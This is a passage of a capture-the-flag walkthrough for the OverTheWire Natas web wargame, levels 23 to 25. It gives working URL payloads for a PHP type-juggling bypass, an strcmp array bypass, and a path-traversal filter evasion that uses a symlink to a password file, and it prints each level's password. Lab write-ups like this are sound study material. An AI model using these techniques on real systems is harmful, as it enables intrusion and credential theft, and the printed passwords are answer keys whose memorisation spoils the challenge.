 This checks the `passwd` variable for a substring and an integer comparison. In PHP, converting strings to numbers simply stops reading the string after the number part finishes.

http://natas23.natas.labs.overthewire.org/?passwd=11iloveyou

OsRmXFguozKpTZZ5X14zNO43379LZveg

## 24

According to the PHP manual, `strcmp` does weird things when it's given non-string values.

Adding `[]` to the end of a GET variable passes an array!

http://natas24.natas.labs.overthewire.org/?passwd[]=

GHF6X7YwACaYYssHVY05cFq83hRktl4c

## 25

To bypass the `../` replacement, we can use `..././` or `....//` since it takes out the middle one and leaves what we want.

To bypass the second check for `natas_webpass`, we can use a symbollic link. Using the shell from level 12 and 13, run:

	mkdir /tmp/zimbix-26
	ln -s /etc/natas_webpass/natas26 /tmp/zimbix-26/link
	chmod 777 /tmp/zimbix-26

Now to get to:

	/tmp/zimbix-26/link

From the (assumed) current directory:

	/var/www/natas/natas12/language/

We want:

	../../../../../tmp/zimbix-26/link

So let's try:

	....//....//....//....//....//tmp/zimbix-26/link

oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T

## 26


